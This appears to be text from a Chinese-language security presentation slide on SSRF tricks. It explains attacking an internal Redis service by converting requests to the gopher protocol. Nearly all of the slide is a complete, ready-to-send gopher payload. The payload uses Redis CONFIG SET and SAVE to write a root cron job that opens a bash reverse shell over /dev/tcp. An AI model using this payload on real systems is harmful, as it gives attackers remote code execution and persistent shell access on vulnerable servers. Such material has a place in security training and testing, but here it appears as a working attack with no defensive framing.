

SSRF中的Trick
SSRF攻击内网服务（redis为例）
将对redis的请求流量改为gopher协议的格式，发送即可
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0d%0a%0a%0
a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333
0>&1%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0ad
ir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$
10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aq
uit%0d%0a